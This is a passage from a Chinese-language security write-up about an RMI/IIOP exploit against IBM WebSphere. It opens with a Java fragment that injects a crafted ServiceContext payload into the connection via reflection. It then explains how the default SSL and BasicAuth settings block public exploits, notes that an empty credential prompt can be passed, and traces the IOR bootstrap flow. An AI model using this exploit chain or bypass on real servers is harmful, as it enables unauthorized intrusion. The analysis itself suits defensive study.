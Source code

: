 ```
            new TransIdentity(null, null, new otid_t(0,0,new byte[0])),
            new TransIdentity[0],
            any
    );
    PropagationContextHelper.write(outputStream, propagationContext);
    byte[] result = outputStream.toByteArray();

    ServiceContext serviceContext = new ServiceContext(0, result);
    ArrayList arrayList = new ArrayList();
    arrayList.add(serviceContext);
    setConnectionContexts.invoke(connection, arrayList);
    context.list("");
 `}`
```

[![](https://p0.ssl.qhimg.com/t0130959cc104398012.png)](https://p0.ssl.qhimg.com/t0130959cc104398012.png)



## 一些思考

`WAS` 默认对 `RMI/IIOP` 开启了 `SSL` 和 `Basic` 认证，前面为了聚焦漏洞我把 `WAS` 的 `SSL` 关了，如果没关，又没指定 `SSL` 配置文件的话，直接用互联网中公开的漏洞利用方案在设置 `ServiceContext` 时相关的代码会直接报错抛出异常。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0139478ae838c2fbe4.png)

而且开启了也不能直接打，因为还有个 `BasicAuth` ，会弹出用户名密码验证框，不知道账户密码的话，敲一下回车也能过去

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t013590117a57fdf85a.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0133927bde979e9edc.png)

可以抓包和 Debug 一下源码看一下为什么会这样，在 `WsnInitCtx` 上下文中 `list` 或者 `lookup` 的实现是，先去发个 `locateRequset` 去 `BooStrap` 那获取 `NamingService` 的地址，拿到 `NamingService` 的 `IOR` 后再发送 `Request` 请求，如果 `WAS` 没启用 `SSL` 的话，在服务器返回的 `IOR Profile` 中是会带有端口指明 `NamingService` 的端口。

[![](https://p5.ssl.qhimg.com/t011648d36ea2e783ca.png)](https://p5.ssl.qhimg.com/t011648d36ea2e783ca.png)

如果 `BootStrap` 返回的 `IOR` 只带有 `Host` ，端口为 0，但是在返回的 `IOR` 中会有 `SSL` 的相关内容，则说明是要走 `SSL` 端口的，如果我们的客户端没配置 `SSL` 属性的话，那他是不会走 `SSL` 连接的，而是直接连接 `host:0`，肯定连不上

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01d5c4052bf81453e7.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t013fad511b361530e4.png)

